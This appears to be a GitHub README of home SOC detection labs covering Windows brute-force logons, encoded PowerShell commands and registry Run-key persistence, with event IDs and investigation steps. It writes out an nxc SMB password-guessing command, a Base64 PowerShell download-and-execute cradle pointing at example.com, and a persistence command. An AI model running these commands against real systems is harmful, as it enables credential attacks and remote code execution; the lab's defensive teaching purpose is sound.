# Windows Security Detection Labs

## Overview

This repository contains hands-on cybersecurity detection labs designed to simulate real-world attacker behavior and demonstrate how Security Operations Center (SOC) analysts investigate suspicious activity using Windows event logs.

Each lab focuses on a specific attack technique and walks through the process of:

- Simulating attacker activity
- Investigating Windows security logs
- Identifying indicators of compromise
- Understanding how defenders detect malicious behavior

The labs are performed in a controlled environment using a Windows workstation and a Kali Linux attacker system.
This repository contains hands-on cybersecurity labs demonstrating how common attack techniques can be detected using Windows Event Logs. The labs simulate real attacker behavior and show how Security Operations Center (SOC) analysts investigate suspicious activity.

Each lab includes an attack simulation, log investigation, and detection analysis.

## Table of Contents

* [Overview](#overview)
* [Lab Environment](#lab-environment)
* [Labs Included](#labs-included)
* [Skills Demonstrated](#skills-demonstrated)
* [Lab 1 – Windows Authentication Brute Force Detection](#lab-1--windows-authentication-brute-force-detection)
* [Lab 2 – Suspicious PowerShell Encoded Command Detection](#lab-2--suspicious-powershell-encoded-command-detection)

## Lab Environment

Attacker Machine:
Kali Linux VM

Target Machine:
Windows Workstation

Network:
Local LAN environment used to simulate attacker-target interaction.



---

## Labs Included

### Lab 1 – Windows Authentication Brute Force Detection

Simulates multiple failed login attempts against a Windows system and investigates the resulting security logs.

**Logs analyzed**

Event ID 4625 – Failed Logon
Event ID 4624 – Successful Logon
Event ID 4740 – Account Lockout

Key skills demonstrated

* Authentication log analysis                                                                
* Identifying brute force attack patterns                                  
* Investigating account lockout events                                            
* Understanding logon types and source addresses

---

### Lab 2 – Suspicious PowerShell Encoded Command Detection

Simulates the execution of an encoded PowerShell command commonly used in fileless malware attacks and investigates the resulting logs.

**Logs analyzed**

Event ID 4688 – Process Creation
Event ID 4104 – PowerShell Script Block Logging

## Skills Demonstrated

- Windows Event Log Analysis
- Authentication Attack Detection
- PowerShell Attack Investigation
- Incident Investigation Workflow
- Log Correlation and Timeline Analysis
- Security Monitoring Techniques
- Windows Persistence Detection
- Registry Artifact Investigation
- PowerShell Execution Analysis
- PowerShell Execution Analysis
- Security Event Log Monitoring
- MITRE ATT&CK Technique Mapping
---

## Lab 1 – Investigation: Windows Authentication Brute Force Detection

This project simulates both local and remote brute-force authentication attempts against a Windows system and demonstrates how these attacks appear in Windows Security logs.

The lab analyzes key security events including:

- Event ID 4625 – Failed Logon
- Event ID 4624 – Successful Logon
- Event ID 4740 – Account Lockout

Attack simulations were performed from a Kali Linux system using password-guessing techniques against SMB authentication.

The objective was to practice authentication monitoring, log correlation, and structured incident investigation in a controlled SOC lab environment.

🖥️ Lab Environment

VMware Workstation Pro

Windows 11 Pro (Target System)

Host-only isolated virtual network

Local test account: testuser

Administrative account used for log investigation

⚙️ Logging Configuration

The following audit policies were configured to increase visibility:

Audit Logon Events (Success & Failure)

Audit Account Logon Events

Process Creation Logging (Event ID 4688)

Command-line process auditing via Group Policy

PowerShell Script Block Logging

🚨 Attack Simulation

A simulated brute-force scenario was conducted by repeatedly entering incorrect credentials for the account testuser.

This generated multiple failed authentication events.

Event ID 4625 – Failed Logon

Observed:

Account Name: testuser

Logon Type: 2 (Interactive)

Failure Reason: Unknown username or bad password

Source Network Address: 127.0.0.1


After multiple failed attempts, a successful login was recorded.

Event ID 4624 – Successful Logon

Observed:

Account Name: testuser

Logon Type: 2 (Interactive)

Source Network Address: 127.0.0.1

Timestamp correlation confirmed successful authentication following repeated failures


🔎 Investigation Methodology


The investigation process included:

Filtering Security logs by Event ID (4625, 4624)

Filtering by specific user account

Reviewing logon types

Analyzing source IP address

Performing timeline reconstruction

Determining likelihood of malicious activity

🧠 Key Findings

Multiple failed interactive logon attempts were detected.

The successful login originated from localhost (127.0.0.1).

Logon Type 2 confirmed direct keyboard interaction.

No evidence of remote network-based brute-force activity was identified.

Conclusion: Activity likely resulted from incorrect password entry rather than malicious authentication attack.

🛡️ Skills Practiced

Windows Security Event Log analysis

Authentication monitoring

Event correlation

Logon Type interpretation

Basic incident reporting

SOC-style investigation workflow

📚 MITRE ATT&CK Mapping

Technique: T1110 – Brute Force

Although conducted locally, the investigation methodology aligns with brute-force authentication detection practices.

🔎 Detection Logic (SOC Perspective)

If this activity were observed in a production environment, the following detection logic could be implemented:

Potential Brute Force Indicator:

Multiple Event ID 4625 entries

Same TargetUserName

Within short time window (e.g., 5–10 attempts in under 2 minutes)

Escalation Criteria:

4625 failures followed by 4624 success

Logon Type 3 (Network) or 10 (Remote Desktop)

External Source IP address

Example detection condition:

If more than 5 failed authentication attempts occur for the same user within 2 minutes, trigger security alert.
This logic aligns with authentication monitoring best practices in SOC environments.

Network Brute Force Simulation (Remote Authentication Attack)

A second test scenario simulated a remote authentication attack from a Kali Linux system against the Windows target machine.

The attack was executed using NetExec (nxc) to attempt multiple password guesses against the SMB service.

Attack Source

Kali Linux attacker machine
IP Address: 192.168.100.129

Target

Windows 11 system
IP Address: 192.168.100.128

Tool Used
nxc smb 192.168.100.128 -u testuser --password-file /usr/share/wordlists/rockyou.txt
Observed Security Events

Multiple authentication failures were recorded:


Event ID 4625 – Failed Logon

Key indicators:

Logon Type: 3 (Network)

Account Name: testuser

Source Network Address: 192.168.100.129


This confirms the authentication attempts originated from a remote system.

Account Lockout


Windows eventually locked the account after repeated failures.

Event ID 4740 – Account Locked Out

This behavior demonstrates how repeated brute-force attempts can trigger defensive account lockout policies.

## Lab 2 – Investigation: Suspicious PowerShell Encoded Command Detection

Overview

PowerShell is a powerful administrative tool included with Windows, but it is frequently abused by attackers to execute malicious scripts directly in memory. One common technique is the use of encoded commands, where the PowerShell command is Base64-encoded to hide the true behavior from defenders.

This lab simulates the execution of an encoded PowerShell command and demonstrates how security analysts can detect this activity using Windows logging.

The investigation focuses on identifying suspicious PowerShell execution through:

Event ID 4688 – Process Creation

Event ID 4104 – PowerShell Script Block Logging

Lab Environment

Attacker System          
Kali Linux VM             
IP Address: 192.168.101.130

Target System            
Windows Workstation                             
IP Address: 192.168.101.134

Network                                              
Local LAN (192.168.101.0/24)

Attack Technique                                               

Attackers frequently use encoded PowerShell commands to hide malicious activity. Instead of executing a readable command, the script is encoded into Base64 and passed to PowerShell using the -EncodedCommand parameter.

Example attacker command:

powershell -EncodedCommand <Base64 encoded script>

This technique helps attackers evade simple detection rules that search for suspicious keywords.

Attack Simulation

To simulate this technique, the following encoded PowerShell command was executed on the Windows system:

powershell -EncodedCommand                                             SQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AZQB4AGEAbQBwAGwAZQAuAGMAbwBtACIAKQA=

When decoded, this command becomes:

IEX (New-Object Net.WebClient).DownloadString("http://example.com
")

Explanation:

IEX (Invoke-Expression)                                                          
Executes a command directly in memory.

New-Object Net.WebClient                                         
Creates a web client object.

DownloadString()                                                            
Downloads remote content from a web server.

This behavior is commonly used by fileless malware to download and execute malicious payloads.

In this lab, the command attempts to download content from example.com. Since the site returns HTML rather than PowerShell code, execution produces harmless parsing errors. However, the goal of the lab is not successful execution, but rather the detection of suspicious activity through Windows logs.

Detection Investigation

After executing the encoded command, Windows logs were analyzed to identify indicators of suspicious PowerShell activity.

Event ID 4688 – Process Creation

Location
Windows Logs → Security

This event records every new process created on the system.

The following suspicious indicators were observed:

New Process Name                                                     
powershell.exe

Command Line                                                                            
powershell.exe -EncodedCommand

The presence of -EncodedCommand is a strong indicator of potentially malicious PowerShell usage and is frequently investigated by SOC analysts.

Event ID 4104 – PowerShell Script Block Logging

Location                                                                                
Applications and Services Logs → Microsoft → Windows → PowerShell → Operational

Script Block Logging records the actual PowerShell code that was executed.

The log revealed the decoded command:

IEX (New-Object Net.WebClient).DownloadString("http://example.com
")

This demonstrates that even when commands are encoded, Windows can log the decoded script, allowing analysts to inspect potentially malicious behavior.

Why This Matters

Encoded PowerShell commands are commonly used by attackers because they:

Hide malicious commands from simple detection rules                                         
Obfuscate scripts to evade security monitoring                                 
Execute code directly in memory without writing files to disk

This technique is frequently observed in attacks involving:

Cobalt Strike                                  
Emotet                                                 
TrickBot                                                     
PowerShell Empire

For this reason, SOC analysts closely monitor PowerShell activity, especially commands that contain:

-EncodedCommand                                                             
Invoke-Expression (IEX)                                                                    
Net.WebClient                                                                       
DownloadString

Key Takeaways

This lab demonstrates how encoded PowerShell activity can be detected using built-in Windows logging.

Security analysts can identify suspicious behavior by:

Monitoring process creation events (Event ID 4688)                                                          
Inspecting PowerShell Script Block logs (Event ID 4104)                                                                         
Investigating commands containing encoded payloads

Proper logging configuration significantly improves visibility into PowerShell-based attacks.

### Screenshots







## Lab 3 – Windows Persistence Detection (Registry Run Key)
Overview

Attackers often establish persistence mechanisms to maintain access to compromised systems even after a reboot or user logoff. One common persistence technique involves modifying Windows registry Run keys so that malicious scripts execute automatically when a user logs in.

This lab simulates the installation of persistence using a registry Run key and demonstrates how Security Operations Center (SOC) analysts can detect the behavior through Windows security logs.

The investigation focuses on identifying persistence artifacts and detecting suspicious PowerShell execution.

MITRE ATT&CK Technique:

T1547.001 – Registry Run Keys / Startup Folder

Payload Creation: 

A PowerShell payload script was created to simulate a malicious script executed by attackers.

File location:

C:\Temp\payload.ps1

Script content:

Write-Output "Persistence Lab Executed"
Start-Sleep 5

Explanation:

Write-Output prints text to the console to confirm execution.
Start-Sleep introduces a delay to simulate real attacker scripts which often include timing mechanisms.



Persistence Installation

Persistence was installed by creating a registry Run key using PowerShell.

Command used:

New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SystemUpdater" -Value "powershell.exe -ExecutionPolicy Bypass -File C:\Temp\payload.ps1"

Explanation:

HKCU Run Key
Programs in this registry location automatically execute whenever the user logs in.

ExecutionPolicy Bypass
Allows PowerShell scripts to run without restrictions.

payload.ps1
Simulates malicious code execution.

This technique allows attackers to maintain long-term access to a compromised system.



Registry Artifact Investigation

The persistence mechanism can be observed in the Windows registry.

Location:

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run

Registry entries observed:

SystemUpdater
UpdaterService

Both entries execute the PowerShell payload automatically during user login.



Persistence Execution

After system restart or user login, Windows automatically executes the registry Run key entries.

This resulted in PowerShell launching the payload script.

The execution generated a process creation event in Windows Security logs.

Event ID:

4688 – Process Creation

Key indicators observed:

Process Name
powershell.exe

Command Line

powershell.exe -ExecutionPolicy Bypass -File C:\Temp\payload.ps1

This confirms that the persistence mechanism successfully executed the payload.

